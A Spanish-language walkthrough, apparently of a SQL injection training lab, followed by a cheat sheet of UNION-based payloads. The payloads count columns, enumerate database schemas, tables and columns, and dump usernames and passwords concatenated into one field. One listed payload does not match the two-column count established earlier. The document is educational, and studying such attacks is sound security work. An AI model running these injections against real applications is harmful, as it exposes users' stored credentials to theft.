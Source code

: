 La tabla objetivo sigue siendo ‘**users**‘, que contiene los campos ‘**username**‘ y ‘**password**‘.

Pasos clave del ataque:

- Primero confirmamos que la consulta original devuelve dos columnas, pero solo una permite mostrar texto.
- En lugar de intentar mostrar ‘**username**‘ y ‘**password**‘ en columnas separadas (lo que daría error), los concatenamos dentro de la misma columna, usando un separador visible como ~.
- El payload final concatena los valores así: “**username || ‘~’ || password**“. Esto unifica ambos datos en una sola cadena que puede ser mostrada sin errores.

Al enviar esta inyección, la respuesta incluirá los nombres de usuario y sus contraseñas, separados por el símbolo elegido. Finalmente, usamos las credenciales del administrador para iniciar sesión y completar el lab.

**Quédate con esto**: Cuando no puedes mostrar varios valores por separado, combínalos en una sola columna textual. Esta técnica te permite seguir extrayendo información sensible en entornos más restringidos.

----

* Primero debemos de buscar el total de columnas existentes que nos muestra la Web
    + '  (para provocar un error en la consulta)
    + ' order by 2-- -
    + ' union select NULL,schema_name from information_schema.schemata-- -
    + ' union select NULL,table_name from information_schema.tables where table_schema='DB'-- -
    + ' union select NULL,column_name from information_schema.columns where table_schema='DB' and table_name='TABLE'-- -
    + ' union select NULL,username,0x3a,password from DB.TABLE-- -
    + ' union select NULL,username||0x3a||password from DB.TABLE-- -
    + ' union select NULL,username||':'||password from DB.TABLE-- -